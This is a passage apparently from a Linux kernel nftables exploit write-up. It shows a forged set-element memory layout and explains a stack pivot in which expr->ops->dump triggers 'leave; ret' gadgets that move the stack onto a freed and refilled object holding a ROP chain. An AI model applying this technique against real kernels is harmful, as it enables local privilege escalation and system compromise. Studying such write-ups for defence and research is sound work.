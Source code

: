 ```
element start
  element data ->       0x0000000000000000      0xffff8881038e58c8   
  element ext  ->       0x4000000000000c04      0x0000002a00003820	  
                        0x0000000000000000      0x0000000000000000      
  nft_set_elem_expr->   0x0000000000000010      0xffffffff82b265a0 <- expr[0]->ops
  expr[0]->data->       0xffff8881023e6e20      0xffff88810252fc00 <- NFT_SET_EXT_OBJREF 
  NFT_SET_EXT_USERDATA  0xffffffff8104d475      0xffffffffffffff00
                		0xffffffffffffffff      0xffffffffffffffff
                      0xffffffffffffffff      0xffffffffffffffff
                      0xffffffffffffffff      0xffffffffffffffff

```

The first step of ROP start looks like this:
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x48 // mov rsp, rbp  
rbp = *(element + 0x48) //pop rbp  rbp=*(NFT_SET_EXT_OBJREF)
rsp = element + 0x50 
rip = *(element + 0x50) //ret   rip=*(NFT_SET_EXT_USERDATA)
rsp = element + 0x58 
```
The second step of ROP is also:
```
leave; ret
```
After this, the `rsp` will be the value of the `NFT_SET_EXT_OBJREF`. It will point to the `object X`, which we released it in step 8 and filled it with our ROP gadget in step 9.